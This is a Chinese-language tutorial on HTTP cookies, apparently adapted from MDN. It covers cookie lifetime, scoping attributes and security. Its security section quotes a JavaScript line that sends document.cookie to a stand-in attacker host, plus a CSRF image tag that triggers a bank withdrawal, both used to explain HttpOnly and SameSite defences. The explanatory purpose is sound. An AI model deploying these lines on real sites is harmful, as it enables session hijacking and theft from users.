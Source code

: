 HTTP Cookie（也叫 Web Cookie 或浏览器 Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie 使基于无状态的 HTTP 协议记录稳定的状态信息成为了可能。

## 创建 cookie

当服务器收到 HTTP 请求时，服务器可以在响应头里面添加一个 Set-Cookie 选项。浏览器收到响应后通常会保存下 Cookie，之后对该服务器每一次请求中都通过 Cookie 请求头部将 Cookie 信息发送给服务器。另外，Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

## 定义 Cookie 的生命周期

- 会话期 Cookie 是最简单的 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期 Cookie 不需要指定过期时间（Expires）或者有效期（Max-Age）。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期 Cookie 也会被保留下来，就好像浏览器从来没有关闭一样，这会导致 Cookie 的生命周期无限期延长。

- 持久性 Cookie 的生命周期取决于过期时间（Expires）或有效期（Max-Age）指定的一段时间。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

:::warning
提示：当 Cookie 的过期时间被设定时，设定的日期和时间只与客户端相关，而不是服务端。
:::

如果您的站点对用户进行身份验证，则每当用户进行身份验证时，它都应重新生成并重新发送会话 Cookie，甚至是已经存在的会话 Cookie。此技术有助于防止会话固定攻击（session fixation attacks），在该攻击中第三方可以重用用户的会话。

## 限制访问 Cookie

有两种方法可以确保 Cookie 被安全发送，并且不会被意外的参与者或脚本访问：Secure 属性和 HttpOnly 属性。

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端，因此可以预防 man-in-the-middle 攻击者的攻击。但即便设置了 Secure 标记，敏感信息也不应该通过 Cookie 传输，因为 Cookie 有其固有的不安全性，Secure 标记也无法提供确实的安全保障, 例如，可以访问客户端硬盘的人可以读取它。

JavaScript Document.cookie API 无法访问带有 HttpOnly 属性的 cookie；此类 Cookie 仅作用于服务器。例如，持久化服务器端会话的 Cookie 不需要对 JavaScript 可用，而应具有 HttpOnly 属性。此预防措施有助于缓解跨站点脚本（XSS）攻击。

## Cookie 的作用域

### Domain 属性

Domain 指定了哪些主机可以接受 Cookie。如果不指定，默认为 origin，不包含子域名。如果指定了 Domain，则一般包含子域名。因此，指定 Domain 比省略它的限制要少。但是，当子域需要共享有关用户的信息时，这可能会有所帮助。

例如，如果设置 Domain=mozilla.org，则 Cookie 也包含在子域名中（如 developer.mozilla.org）。

### Path 属性

Path 标识指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。

例如，设置 Path=/docs，则以下地址都会匹配：

- /docs
- /docs/Web/
- /docs/Web/HTTP

### SameSite attribute

SameSite Cookie 允许服务器要求某个 cookie 在跨站请求时不会被发送，（其中 Site 由可注册域定义），从而可以阻止跨站请求伪造攻击（CSRF）。

SameSite 可以有下面三种值：

- None。浏览器会在同站请求、跨站请求下继续发送 cookies，不区分大小写。
- Strict。浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）
- Lax。与 Strict 类似，但用户从外部站点导航至 URL 时（例如通过链接）除外。 在新版本浏览器中，为默认选项，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者 frames 的调用，但只有当用户从外部站点导航到 URL 时才会发送。如 link 链接

![](/img/other/samesite.png)

## Cookie 安全

### 会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击。

```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
```

HttpOnly 类型的 Cookie 用于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）

维基百科已经给了一个比较好的 CSRF 例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```js
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

**使用 samesite 限制 cookie 的跨域发送**

## 参考资料

[NDN: HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)

